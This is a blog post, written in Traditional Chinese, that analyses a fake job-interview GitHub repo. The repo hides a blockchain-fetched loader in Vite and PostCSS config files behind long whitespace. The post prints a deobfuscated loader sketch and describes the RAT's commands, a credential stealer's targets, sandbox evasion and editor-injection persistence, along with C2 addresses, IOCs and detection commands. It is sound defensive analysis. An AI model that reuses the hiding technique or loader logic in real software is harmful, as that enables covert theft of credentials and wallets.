

## 起因

最近收到一封招募信，內容是一個加密貨幣相關的專案，時薪寫 100 到 150 美元，還附了一份〈Crypto Tracker Overview.pdf〉。PDF 寫得很完整：專案叫 CryptoTracker（Coin Rich AI），定位是「AI 驅動的加密貨幣交易與資產管理生態系」，有願景與使命、前端現況、待開發項目、核心功能，甚至把 CTO、PM、前端、後端、區塊鏈、AI/ML、交易策略師、資安合規每個角色的職責都列了出來。

對方的流程是這樣：先邀請我進「公司的私人 GitHub repo」，請我在技術面談前把專案的前端跑起來，之後再約時間開會。

老實說，這個流程本身沒什麼奇怪的地方。拿一份既有的專案當考題、請候選人先熟悉環境，很多公司都這樣做。PDF 裡的技術選型（Vite、TailwindCSS、CoinGecko、MetaMask、ERC-20）也都是這類專案會用的東西。真正讓我停下來的，是在跑 `npm install` 之前順手翻了一下設定檔。

這篇記錄的就是接下來發生的事：怎麼發現、它做了什麼、以及為什麼一般的檢查方式抓不到它。分析全程只做靜態解碼，沒有執行任何惡意程式碼，也沒有連線到攻擊者的伺服器。

## 第一個違和感：git 歷史對不上

clone 下來之後，我習慣先看 `git log`。這個 repo 號稱是一個加密貨幣交易平台的前端，但前幾筆 commit 談的是 webpack、PostHog、Slack skill 這些和專案完全無關的主題，最後一筆 commit 訊息是「Refactoring codebse for speed」（拼錯字），內容是大量刪檔。

這看起來像是拿別人的專案改裝：保留原本的 git 歷史讓 repo 看起來有在維護，再把內容換成需要的樣子。commit 的作者欄位也很可能是冒用的身分，所以這裡就不寫出來了。

接著看 `package.json`，它是乾淨的，沒有 `postinstall` 之類的 lifecycle script。如果只做到這一步，多數人（包括我自己平常）大概就會放心地 `npm install && npm run dev` 了。

## 在 GitHub 上看不到，Raw 卻看得到

問題出在兩個設定檔：`postcss.config.js` 和 `vite.config.ts`。

在 GitHub 的程式碼檢視器裡打開 `postcss.config.js`，它長得跟任何一個 Vite 專案的設定檔沒有兩樣，8 行、語法上色正常，第 8 行是一個 `};` 收尾。但打開 Raw 之後，畫面變成了好幾行密密麻麻的亂碼。

原因是惡意程式碼不是寫在新的一行，而是接在原本那行的**同一行後面**，中間塞了大約 400 個空白：

```text
};          ...（約 400 個空白）...          global.o='*8-2';var _$_d414=...（6000 多個字元）
↑ 第 8 行，正常結尾                          ↑ 惡意程式碼，同一行
```

兩種檢視方式的差別在於換行：

| 檢視方式 | 呈現 | 結果 |
| :--- | :--- | :--- |
| GitHub 程式碼檢視器 | 預設不換行，長行要往右捲，而橫向捲軸在檔案最底部 | 第 8 行看起來只有 `};`，後面一片空白，行數、行號、語法上色都正常 |
| Raw | 以 `text/plain` 回傳，瀏覽器內建的純文字檢視器預設自動換行 | 超長行被折成多行，空白後面的程式碼直接出現在畫面上 |

`vite.config.ts` 用的是同一招，藏在第 23 行的 `}));` 後面。兩個檔案開頭還都多加了一行 `createRequire(import.meta.url)`，正常的 Vite 設定用不到它，它的用途是讓後面的程式碼拿到 Node 的 `require`。

如果只在 GitHub 網頁上看，其實還是有線索的：

- **檔案大小**：檔案頁上方會顯示行數和大小。一個 8 行的 `postcss.config.js` 有 7.8 KB，正常大概只有 100 多個位元組。行數少、檔案大，就值得多看一眼。
- **自動換行**：程式碼檢視器的選單裡有「Wrap lines」選項，打開之後空白後面的內容就會露出來。
- **commit 差異**：開啟換行後，被加料的那一行在 diff 裡會整行標示為修改。

這個手法對開發者特別有效，原因有三個。設定檔通常沒人細看，注意力都在 `src/`；它不需要 `postinstall`，所以 `package.json` 是乾淨的，`npm audit` 和各種掃描相依套件的工具都抓不到；而且只要啟動 dev server 就會觸發，「先把前端跑起來」正好就是對方的要求。

## 攻擊鏈：程式碼不在 repo 裡，在區塊鏈上

把那 6 KB 的混淆程式碼解開之後，才發現 repo 裡的東西只是第一層載入器。真正的惡意程式存放在以太坊和 BSC（BNB Smart Chain）的交易資料裡，這個手法在資安業界被稱為 EtherHiding。

整條鏈大致是這樣：



圖中的虛線代表這一段的程式碼存放在攻擊者的 C2 伺服器上，我沒有連線取得，內容是根據公開情資比對推得的。以下逐層說明。

### 第 1 層：repo 內的載入器

這段程式碼做了三層字串混淆：以種子參數打亂字元順序的字串表、透過 `LdR["constructor"]` 取得 `Function` 動態產生解碼函式、再以字典壓縮的方式編碼程式本體。全部還原之後，邏輯其實很短：

```javascript
(async function () {
  if (global._p_t && now - global._p_t < 30000) return; // 30 秒內只跑一次
  global._p_t = now;

  // 1. 透過公開以太坊 RPC 讀鏈上資料
  const ETH = ["ethereum-rpc.publicnode.com", "eth.drpc.org",
               "eth-mainnet.public.blastapi.io", "rpc.mevblocker.io"];

  // 2. 從最新區塊往回、以指數間隔掃描，
  //    找發送地址為特定錢包的交易，它的 to 欄位就是「指標」
  global.ix = ptr;

  // 3. 依指標讀取 BSC 某個區塊中第 N 筆交易的 input data
  const BSC = ["bsc-dataseed.binance.org", "bsc-rpc.publicnode.com"];
  const hidden = hexToUtf8(tx.input).split("?.?")[1];

  // 4. XOR 解密後執行
  eval(xor(hidden, key));
})();
```

這裡最巧妙的是第 2 步。攻擊者在以太坊上發一筆交易，`to` 欄位填的不是真正的收款地址，而是一個 20 位元組的值 `0x0784a79e5207844292350784107e4d0783e08100`，裡面編碼了三組 BSC 區塊號碼和交易序號。載入器讀到這個「指標」，就知道下一層程式碼放在 BSC 的哪個區塊、哪筆交易裡。

這樣設計帶來三個效果：repo 掃描抓不到真正的 payload；攻擊者只要再發一筆新交易，就能替換所有受害者下載到的程式；而區塊鏈上的資料無法被下架。

### 第 2 層：啟動器

從 BSC 區塊讀出來的第二層有 52 KB，用了 JS-Confuser 類型的控制流程扁平化，字串表以 LZString 壓縮。它做的事情主要有兩件。

第一件是用 `child_process.spawn` 開一個 `detached`、`windowsHide`、`stdio: ignore` 的 `node -e`，再呼叫 `unref()`。這代表就算關掉 dev server，惡意程序仍然會在背景繼續活著。它還會偵測 WSL2，如果是在 WSL 裡執行，就改用 Windows 的 `node.exe`，從 WSL 跳出去感染 Windows 主機。

第二件是帶入兩個子載入器，各自用指標的不同區段定位到另外兩個 BSC 區塊，解密出最後的兩個 payload。

### Payload A：Node.js 遠端控制木馬

這是一個透過 socket.io 連到 C2 的遠端控制木馬。連上之後會回報主機名稱、使用者名稱、作業系統版本、Node 路徑、工作目錄，並查詢 `ip-api.com` 取得 IP 與所在地。缺少套件時，它會自己用 `npm --prefix … install axios socket.io-client` 裝起來。

C2 可以下達的指令如下：

| 指令 | 功能 |
| :--- | :--- |
| `ss_info`、`ss_ip` | 回報系統資訊、版本、C2 設定、IP |
| `ss_cb` | 讀取剪貼簿（macOS 用 `pbpaste`、Windows 用 `Get-Clipboard`、Linux 用 `xclip`／`xsel`），目標是複製過的助記詞、私鑰、密碼 |
| `ss_upf`、`ss_upd` | 上傳指定檔案或整個資料夾 |
| `ss_dir`、`ss_fcd`、`cd` | 瀏覽檔案系統 |
| `ss_eval`、`ss_eval64` | 執行任意程式碼 |
| `ss_inz`、`ss_inzx` | 把自己注入 Cursor、VS Code、Discord、GitHub Desktop、Antigravity 的 `cli.js`，達成長期駐留 |
| `ss_connect`、`ss_stop`、`ss_exit` | 切換 C2、停止上傳、結束程序 |

`ss_inz` 這一項值得特別注意。注入到 VS Code 或 Discord 之後，就算把專案資料夾刪掉，每次打開這些應用程式，木馬都會重新執行一次。

它也會避開分析環境：主機名稱符合 `github-runner`、`buildbot`、`sandbox-pool-`、`buildkitsandbox` 這類 CI 或沙箱特徵時不動作，避免在資安研究員的環境中曝光。

### Payload B：Python 植入程式

第二個 payload 用 obfuscator.io 混淆（RC4 字串加密，共 875 個加密字串）。它會先檢查是不是在 AWS、Azure、GCP、Vercel 等雲端或容器環境裡，命中就結束；沒有 Python 的話，就從 C2 下載可攜版 Python 和 7-Zip；最後用 `subprocess.Popen` 搭配 `CREATE_NO_WINDOW` 在背景向 C2 拿真正的 Python 主程式來執行。

這個主程式我沒有去拿。根據公開情資，C2 下發的是一個叫 OmniStealer 的竊密程式，竊取範圍包括：

| 類別 | 目標 |
| :--- | :--- |
| 瀏覽器 | Chrome、Edge、Firefox、Opera、Arc 的密碼、Cookie、信用卡、瀏覽紀錄 |
| 錢包擴充套件 | MetaMask、Phantom、Keplr、Rabby、OKX、Trust Wallet、Coinbase Wallet 等 |
| 桌面錢包 | Exodus、Atomic、Electrum、Bitcoin Core 等 |
| 密碼管理器 | 1Password、Bitwarden、LastPass、KeePass 等 |
| 系統憑證 | macOS Keychain、Git 憑證、Windows 認證管理員 |
| 其他 | VS Code 擴充套件的儲存資料、所有環境變數 |

這些資料會被打包成有密碼的 zip，透過 HTTP 傳到 C2，失敗時改用 Telegram 外傳。

換句話說，如果當初直接跑了 `npm run dev`，幾分鐘內這台 Mac 的瀏覽器密碼、Keychain、錢包、Git 憑證與 `.env` 裡的各種金鑰都會被送出去，而且木馬會在 VS Code 和 Discord 裡留下來。

## 它是誰

比對公開的資安報告之後，這個樣本的特徵和已知的行動完全吻合：

- 存放 payload 的 BSC 發送地址 `0x9bc1355344b54dedf3e44296916ed15653844509`，被 Ransom-ISAC 列為該行動的核心錢包，自 2025 年 2 月起就在發布同一系列的載入器。
- `ss_info`、`ss_cb`、`ss_inz` 等指令，和 eSentire 公布的 DEV#POPPER RAT 指令表一致；加拿大網路安全中心的報告也記載了同樣的 `ss_*` 指令與上傳端點。
- Python 階段下載 `python.7z`、`7zr.exe` 的流程，和 eSentire 描述的 OmniStealer 部署方式相同。

Trend Micro 把這個行動歸屬於北韓相關的 Void Dokkaebi（又名 Famous Chollima），也就是業界所說的「Contagious Interview」假面試行動。OpenSourceMalware 的 PolinRider 檔案則指出，同樣的設定檔注入手法到 2026 年 4 月已經感染了 1,951 個 repo。

也有一些東西在公開資料中查不到，例如其中一個 C2 IP 和以太坊的指標發送地址，可能是這波新架起來的基礎設施。這些我在檢舉時一併提供了。

## 確認自己沒事

因為一開始就沒有安裝或執行，本機的檢查結果是乾淨的：專案資料夾內沒有 `node_modules`，沒有可疑的 node 程序，VS Code、Discord 的應用程式資料夾和 `~/.vscode/extensions` 裡都沒有注入標記。分析完成後，整個資料夾已經刪除。

如果曾經在任何電腦上執行過類似來源的專案，可以先搜尋這幾個注入標記：`/*C2605*1A*/`、`/*RS261003*/`、`/*C2506`，以及 `global.i='` 開頭的字串。它們會出現在被注入的應用程式 `cli.js` 裡。一旦命中，處理順序大致是：

1. 立即中斷網路。
2. 從**另一台乾淨的裝置**更換所有密碼。
3. 把錢包資產轉移到用新助記詞產生的新錢包。
4. 撤銷 SSH 金鑰、GitHub token、雲端與各種 API 金鑰。
5. 考慮重灌系統。

## 之後拿到考題 repo，我會先做的事

這次能躲過，有一部分是運氣：剛好在執行前多看了一眼。把這次的經驗整理成幾個固定動作，之後拿到任何「請先跑起來」的 repo 都照著做。

**不要只在 GitHub 網頁上看程式碼。** 這次的手法就是針對網頁檢視器設計的。要看就看 Raw、開啟 Wrap lines，或者 clone 下來用自己的工具看。

**執行任何東西之前，先掃一次超長行。** 正常的設定檔不會有超過 300 個字元的一行：

```bash
# 列出所有超過 300 字元的行（排除 node_modules）
grep -rnE '.{300,}' --include='*.js' --include='*.mjs' --include='*.cjs' --include='*.ts' . \
  | grep -v node_modules | cut -c1-150
```

**留意設定檔裡不該出現的寫法。** `createRequire`、`eval`、`Function(`、`global.` 開頭的賦值，出現在 `vite.config.ts`、`postcss.config.js`、`tailwind.config.js`、`next.config.js` 這類檔案裡都很可疑。這些設定檔在 dev server 啟動時一定會被載入執行，對攻擊者來說是比 `postinstall` 更安靜的入口。

**在拋棄式環境裡跑。** VM 或 container 都可以，重點是那個環境裡沒有瀏覽器的登入狀態、沒有 Keychain、沒有錢包、沒有 SSH 金鑰。即使中招，能被拿走的東西也很有限。順帶一提，編輯器打開陌生專案時跳出的「信任此工作區」也不要隨手按下去。

**對招募流程本身保持一點懷疑。** 高時薪、加密貨幣、私人 repo、面談前先跑程式，這幾個條件湊在一起時，就是這類行動最常見的樣子。git 歷史和專案內容對不上，也是一個容易檢查的訊號。

最後我向 GitHub 檢舉了這個帳號（Report abuse → Malware），附上入侵指標，也停止了和對方的聯繫。台灣的讀者遇到類似情況，也可以通報 TWCERT/CC。

## 入侵指標（IOC）

以下列出主要的入侵指標，提供給需要比對的人參考。

| 類型 | 值 |
| :--- | :--- |
| C2 | `154.91.0.20:443`、`166.0.106.182` |
| ETH 指標發送地址 | `0x596dcc9fda875309ff85eba09cf5a97d8c7691bb` |
| ETH 指標交易 | `0x51ee9b42ccaaca71d6527fc8245214f46be5dd2662e6dfd5991b64be4bbd1557` |
| BSC payload 發送地址 | `0x9bc1355344b54dedf3e44296916ed15653844509` |
| BSC 第 2 層交易（區塊 126134174） | `0x9f8d2c3b9415cacea3569ff5b9580e668b5a5899107e328aa324140988adbeb8` |
| BSC Payload A 交易（區塊 126108306） | `0x25d2f04f9f9da3d0eff0a3a8721582d33df487837d5aead76833e6ebde93f37f` |
| BSC Payload B 交易（區塊 126095486） | `0xea0650c1317c4db2a4f1a62a48fd472660855d3d7e62020f4932d85b64e43926` |
| 全域變數 | `global._p_t`、`global.ix`、`global.r`、`global._t_h`、`global._t_z` |
| 注入標記 | `/*C2605*1A*/`、`/*RS261003*/`、`/*C2506` |
| 命令列特徵 | `node -e … -skipwarn`、`npm --prefix "…" install axios socket.io-client -skipwarn` |
| GitHub repo | `github.com/aicryptotraci/AICryptoTrader` |

## Reference

- [DEV#POPPER RAT 的 ss_* 指令表、攻擊者測試電腦名稱與 OmniStealer 部署流程 — eSentire](https://www.esentire.com/blog/north-korean-apt-malware-analysis-dev-popper-rat-and-omnistealer-everyday-im-shufflin)
- [BSC 核心錢包 0x9bc13553… 與跨鏈 TxDataHiding 手法 — Ransom-ISAC, Cross-Chain TxDataHiding Crypto Heist (Part 4)](https://ransom-isac.org/blog/cross-chain-txdatahiding-crypto-heist-part-4/)
- [假面試行動歸屬於 Void Dokkaebi（Famous Chollima）與編輯器注入手法 — Trend Micro](https://www.trendmicro.com/en_us/research/26/d/void-dokkaebi-uses-fake-job-interview-lure-to-spread-malware-via-code-repositories.html)
- [EtherHiding 手法、ss_* 指令與 /u/f 上傳端點 — Canadian Centre for Cyber Security, EtherHiding: The trojan in your toolchain](https://www.cyber.gc.ca/en/news-events/etherhiding-trojan-your-toolchain)
- [設定檔注入手法與 1,951 個受感染 repo 的統計 — OpenSourceMalware, PolinRider dossier](https://github.com/OpenSourceMalware/PolinRider)
- [同一 BSC 地址的受害者紀錄 — Tyler Henkel, I Installed OpenClaw. 2 Hours Later, an Attacker Had Full Access](https://www.tylerhenkel.com/blog/openclaw-malware-attack)
- [同一 BSC 地址在開源專案中的通報紀錄 — splitlabs/dictx Issue #30](https://github.com/splitlabs/dictx/issues/30)
- [C2 IP 所屬網段 AS149440（Evoxt） — ipinfo, 154.91.0.0/24](https://ipinfo.io/AS149440/154.91.0.0/24)
